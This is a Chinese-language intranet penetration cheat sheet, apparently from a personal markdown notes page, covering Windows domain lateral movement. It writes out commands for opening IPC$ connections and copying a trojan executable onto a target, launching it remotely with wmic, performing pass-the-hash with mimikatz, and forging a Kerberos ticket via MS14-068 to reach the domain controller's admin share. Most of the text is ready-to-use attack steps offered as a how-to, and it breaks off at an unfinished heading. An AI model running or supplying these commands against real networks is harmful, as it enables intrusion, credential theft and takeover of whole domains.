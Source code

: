 建立IPC$连接上传木马 建立后可以访问目标机器的文件(上传、下载)，也可以在目标机器上运行命令。上传和下载文件直接通过copy命令就可以，不过路径换成**UNC路径**。

常用命令:

~~~~
net use \\ip\ipc$ pawword /user:username      建立IPC连接
copy hacker.exe \\10.10.10.10\C$\windows\temp   复制本地文件到目标服务器
copy \\10.10.10.10\C$\windows\temp\hash.txt        复制目标服务器文件到本地

~~~~

## wmic命令执行木马

~~~~
wmic /node:10.10.10.10 /user:用户名 /password:密码 process call create "目标机中的木马路径"
~~~~



### 4.哈希传递攻击

只有获得了域管理员的哈希才可以攻击。没有得到明文密码

~~~~
【哈希传递攻击】在 kerberos、NTLM 认证过程的关键，首先就是基于用户密码 Hash 的加密，所以在域渗透中，无法破解用户密码 Hash 的情况下，也可以直接利用 Hash 来完成认证，达到攻击的目的，这就是 hash 传递攻击（Pass The Hash，简称 PTH）。如果内网主机的本地管理员账户密码相同，那么可以通过 PTH 远程登录到任意一台主机，操作简单、威力无穷。

在域环境中，利用哈希传递攻击的渗透方式往往是这样的：    
1.获得一台域主机的权限，Dump 内存获得该主机的用户密码 Hash 值；    
2.通过哈希传递攻击尝试登录其他主机；    
3.继续搜集 Hash 并尝试远程登录，直到获得域管理员账户 Hash，登录域控，最终成功控制整个域。

~~~~

~~~
sekurlsa::pth /user:administrator /domain: "god.org" /ntlm:c456c606a647ef44b646c44a227917a4
~~~

### 5.MS14-068

用于当我们获得了**普通域用户的哈希**,**域控存在MS14-068漏洞**

先获取需要利用的域用户的SID值

whoami /all

~~~~
#生成票据
TGT_administrator@god.org.ccache
MS14-068.exe -u administrator@god.org -p Password@ -s S-1-5-21-2952760202-1353902439-2381784089-500 -d 192.168.52.138 
#MS14-068.exe -u 域用户@dog.org -p 域用户密码 -s 域用户的SID -d 域控ip
#在mimikatz中导入票据
kerberos::ptc %uA0TGT_administrator@god.org.ccache
的路径然后再打开一个cmd窗口尝试访问域控dir \\192.168.52.138\c$
~~~~

### **SMB Beacon和psexec传递（msf中的hash传递攻击）**
